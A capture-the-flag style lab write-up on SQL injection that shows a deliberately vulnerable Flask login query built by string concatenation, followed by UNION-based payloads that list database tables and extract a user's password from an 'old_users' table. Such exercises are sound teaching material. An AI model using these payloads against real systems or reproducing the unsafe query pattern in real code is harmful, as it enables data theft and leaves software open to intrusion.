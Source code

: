 # Mission 0 ~ SQL injection
## Goal and instructions
We have implemented a new version of our web app. It is badly designed, and implemented even worse, but you can go on and test it! P.S. One of our not-so-experienced developers has wiped the users table and we have lost all data, but we should have a copy somewhere in the database :). Can you retrieve the password of user `Jacquelyn`?
## Web app structure
The website is structured with a simple login page and a second page, after login, where the login username is shown.
## Code overview
We will focus on the vulnerable part of the source code, the login function performs an SQL query to validate username and password and return the first 2 results. <br>
the query is prepared through string concatenation, without filtering the user input, and so is vulnerable to SQL injection.
```
@app.route("/login", methods=['POST'])
def login():
    global AUTHENTICATED

    username = request.form['id']
    pw = request.form['pw']

    try:
        query = f"SELECT * FROM users WHERE username='{username}' AND password='{pw}';"
        db_cur.execute(query)
        query_result = db_cur.fetchone()

        print(query_result)

        if query_result is not None:
            id = query_result[0]
            user = query_result[1]
        else:
            return redirect("/")
        
    except Exception as e:
        user = "DB ERROR"
        print(e)

    AUTHENTICATED = True
    return redirect(f"/personal_page?id={id}&username={user}")
```
## Solution
As described we can see the query result, therefore we want to modify the query, through SQL injection, in a way to put desired values in the first 2 results of the query, to be able to read them. <br>
First, we want to discover the table where the user is saved, we insert the following payload in the password field in order to substitute the username with a table name.
> **note:** We can *"navigate"* by modifying the offset value through different tables.
```
prova2' UNION SELECT 1, TABLE_NAME, 'tmp' FROM INFORMATION_SCHEMA.TABLEs where TABLE_SCHEMA='db'
LIMIT 1 OFFSET 1; --
```
We found that the username is saved in the *old_users* table.
Now we want to retrieve the user password, writing the following payload in the password field to substitute the username with it.
```
prova2' UNION SELECT 0, password, 'tmp' FROM old_users WHERE username = 'Jacquelyn' LIMIT 1 OFFSET 1; --
```
> **note:** in order to set properly the UNION operator the original query and the payload have to match in the structure.
